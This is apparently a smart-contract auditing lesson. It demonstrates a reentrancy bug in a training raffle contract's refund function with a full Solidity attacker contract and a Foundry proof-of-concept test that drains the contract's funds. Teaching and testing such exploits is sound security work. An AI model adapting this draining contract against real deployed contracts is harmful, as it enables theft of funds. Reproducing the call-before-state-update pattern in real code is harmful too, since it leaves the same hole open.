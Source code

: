 ```yaml
---
title: Reentrancy - PoC
---
```


_Follow along with this video:_

---

### Reentrancy in PuppyRaffle

Returning to PuppyRaffle, let's look at how all we've learnt affects this protocol.

A look again at this `refund` function and we see a classic case of reentrancy with an external call being made before updating state.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // @Audit: Reentrancy
    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### The PoC

We can start by writing a new test in the protocol's `PuppyRaffle.t.sol` file. We'll have a bunch of players enter the raffle.

```js
function test_reentrancyRefund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

}
```

> **Note:** There _is_ a `playersEntered` modifier we could use, included in this test suite, but we'll choose to be explicit here.

Next we'll create our `ReentrancyAttacker` Contract.

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
}
```

Once deployed, this `attack` function is going to kick off the attack. In order, we're entering the raffle, acquiring our `playerIndex`, and then refunding our `entranceFee`.

This is going to cause our entranceFee to be sent back to our contract ... what happens then?

```js
function _stealMoney() internal {
    if (address(puppyRaffle).balance >= entranceFee) {
        puppyRaffle.refund(attackerIndex);

    }
}

fallback() external payable {
    _stealMoney();
}

receive() external payable {
    _stealMoney();
}
```

Adding these functions to our `ReentrancyAttacker` contract finishes the job. When funds are sent back to our contract, the `fallback` or `receive` functions are called which is going to trigger another `refund` call in our `_stealMoney` function, completing the loop until the `PuppyRaffle` contract is drained!

<details>
<summary> ReentrancyAttacker Contract </summary>

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);

        }
    }
    fallback() external payable {
        _stealMoney();
    }
    receive() external payable {
        _stealMoney();
    }
}
```

</details>
<br>

Alright, let's add this logic to our test. First we'll create an instance of the attacker contract and an attacker address, funding it with 1 ether.

```js
ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
address attacker = makeAddr("attacker");
vm.deal(attacker, 1 ether);
```

Next, we'll grab some balances so we're ablee to log our changes after the attack.

```js
uint256 startingAttackContractBalance = address(attackerContract).balance;
uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
```

We finally call the attack, like so:

```js
vm.prank(attacker);
attackerContract.attack{value: entranceFee}();
```

Then we'll console.log the impact:

```js
console.log("attackerContract balance: ", startingAttackContractBalance);
console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
console.log(
  "ending attackerContract balance: ",
  address(attackerContract).balance
);
console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
```

<details>
<summary>test_reentrancyRefund</summary>

```js
function test_reentrancyRefund() public {
    // users entering raffle
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    // create attack contract and user
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    // noting starting balances
    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attack
    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();

    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
```

</details>
<br>

All we need to do now is run this test with the command `forge test --mt test_reentrancyRefund -vvv` and we should receive...

::image{src='/security-section-4/23-reentrancy-poc/reentrancy-poc1.png' style='width: 75%; height: auto;'}

### Wrap Up

We did it! We've proven the vulnerability through our application of our PoC and we'll absolutely be submitting this as a finding - likely a `High`.

Be very proud of what you've learnt so far, you're now armed to safeguard De-Fi against some of the most prevalent vulnerabilities in Web3.

Let's go back to the code back and continue our recon in the next lesson.

